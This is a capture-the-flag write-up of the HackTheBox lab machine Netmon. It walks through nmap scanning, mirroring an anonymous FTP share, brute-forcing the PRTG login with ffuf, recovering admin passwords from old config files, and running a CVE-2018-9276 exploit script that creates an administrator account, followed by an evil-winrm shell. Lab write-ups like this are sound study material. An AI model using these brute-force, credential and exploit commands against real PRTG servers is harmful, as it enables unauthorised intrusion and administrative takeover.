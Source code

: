 ```yaml
---
tags:
  -  htb
---
```

# HackTheBox: [Netmon](https://app.hackthebox.com/machines/Netmon)

## Services

### TCP

First, a TCP [port scan with nmap](nmap-20240610.md):

```console
# Nmap 7.94SVN scan initiated Mon Sep  9 10:03:30 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-netmon.htb.txt netmon.htb
Nmap scan report for netmon.htb (10.10.10.152)
Host is up, received user-set (0.099s latency).
rDNS record for 10.10.10.152: t
Not shown: 49819 closed tcp ports (reset), 15703 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON          VERSION
21/tcp    open  ftp          syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http         syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  unknown      syn-ack ttl 127
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-09-09T16:04:49
|_  start_date: 2024-09-08T18:36:25

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  9 10:05:46 2024 -- 1 IP address (1 host up) scanned in 136.06 seconds
```

### 21/ftp

Anonymous FTP is permitted. A windows filesystem is exposed there. Interestingly there's a `user.txt` flag readable in `\Users\Public\Desktop` but it doesn't work.

MIrrored via: `wget --mirror 'ftp://anonymous:hax@netmon.htb'`

#### 80/tcp-http

```console
$ whatweb -a3 http://netmon.htb/
http://netmon.htb/ [302 Found] Country[RESERVED][ZZ], HTTPServer[PRTG/18.1.37.13946], IP[10.10.10.152], PRTG-Network-Monitor[18.1.37.13946,PRTG], RedirectLocation[/index.htm], UncommonHeaders[x-content-type-options], X-XSS-Protection[1; mode=block]
ERROR Opening: http://netmon.htb/index.htm - incorrect header check
```

```http
$ curl -I http://netmon.htb/index.htm
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 33654
Date: Mon, 09 Sep 2024 16:05:29 GMT
Expires: 0
Cache-Control: no-cache
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Server: PRTG/18.1.37.13946
```

![](_/htb-netmon-20240909-1.png)

```console
$ ffuf -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -u http://netmon.htb/public/checklogin.htm -X POST -d 'username=prtgadmin' -d 'password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -ac
...
:: Progress: [10000/10000] :: Job [1/1] :: 29 req/sec :: Duration: [0:05:51] :: Errors: 9 ::
```

## Remote Code Execution

Here is how I achieved remote code execution on the target system.

Old credentials leaked via Anonymous FTP in an old config file: `Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.old`

```xml
...
<name>
  PRTG System Administrator
</name>
<ownerid>
  100
</ownerid>
<password>
  <flags>
    <encrypted/>
  </flags>
  <cell col="0" crypt="PRTG">
    JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
  </cell>
  <cell col="1" crypt="PRTG">
    OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
  </cell>
</password>
```

And another, from a `.bak` copy:

```xml
<name>
                  PRTG System Administrator
                </name>
                <ownerid>
                  100
                </ownerid>
                <password>
                  <flags>
                    <encrypted/>
                  </flags>
                  <cell col="0" crypt="PRTG">
                    PDWXMOPZT43U2GKGR3YCBILXDMLAUZVBN27KGBOPKXRQ====
                  </cell>
                  <cell col="1" crypt="PRTG">
                    M24VKFRECBEGN3ZQNGSET723GFIPVHYX
                  </cell>
                </password>
```

I tried [prtg_string_decryptor.py](https://github.com/yobabyte/decryptocollection/tree/main) on both sets of encrypted credentails, with bad results:

```console
$ ./prtg_string_decryptor.py aes --guid '{221B25D6-9282-418B-8364-F59561032EE3}' 'JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======'
-305569838

$ ./prtg_string_decryptor.py aes --guid '{221B25D6-9282-418B-8364-F59561032EE3}' 'PDWXMOPZT43U2GKGR3YCBILXDMLAUZVBN27KGBOPKXRQ===='
-1840798137
```

From `/Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.old.bak`:

```text
...
<dbpassword>
  <!-- User: prtgadmin -->
  PrTg@dmin2018
</dbpassword>
...
```

That didn't work but `PrTg@dmin2019` did:

![](_/htb-netmon-20240909-2.png)

Now I can try [CVE-2018-9276](https://github.com/A1vinSmith/CVE-2018-9276):

```console
$ ./46527.sh -u http://netmon.htb -c '_ga=GA1.2.1686798169.1725897817; _gid=GA1.2.1816280327.1725897817; OCTOPUS1813713946=ezc2QjMxQ0RELUI2MzUtNDI5NS04QTIxLTk1NjA2NDFEMkRFOH0%3D'
...
 [*] file created
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st'
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

```powershell
$ evil-winrm -i netmon.htb -u pentest -p 'P3nT3st!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\pentest\Documents> whoami
netmon\pentest
```

## Privilege Escalation

Because the RCE exploit above returns a privileged user, no further privilege escalation is necessary.

## Post-exploitation

Life after `root`.

## Open Questions

Unresolved issues encountered while attacking this target.

## Credits

The following pages helped me with this machine:
